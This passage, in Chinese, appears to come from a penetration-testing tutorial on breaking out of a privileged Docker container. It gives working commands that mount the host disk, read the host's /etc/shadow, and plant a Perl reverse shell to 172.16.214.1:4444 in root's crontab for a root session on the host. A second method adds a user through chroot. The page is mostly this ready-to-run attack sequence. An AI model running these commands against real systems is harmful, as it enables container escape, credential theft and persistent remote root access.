 在容器内部执行以下命令，将宿主机文件挂载到 /test 目录下

```json
mkdir /test && mount /dev/sda1 /test
```

尝试访问宿主机 shadow 文件，可以看到正常访问

```json
cat /test/etc/shadow
```

<img width="1200" src="/img/1650014420.png">

也可以在定时任务中写入反弹 shell

这里的定时任务路径是 Ubuntu 系统路径，不同的系统定时任务路径不一样

```json
echo $'*/1 * * * * perl -e \'use Socket;$i="172.16.214.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'' >> /test/var/spool/cron/crontabs/root
```

一分钟后，就能收到反弹回来的会话了，而且会话权限是宿主机 root 用户权限。

<img width="1200" src="/img/1650014458.png">

## 方法二

```bash
mount /dev/sda1 /mnt
chroot /mnt adduser john
```

通过新添加的用户登录

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年4月15日"
    }
  }
</script>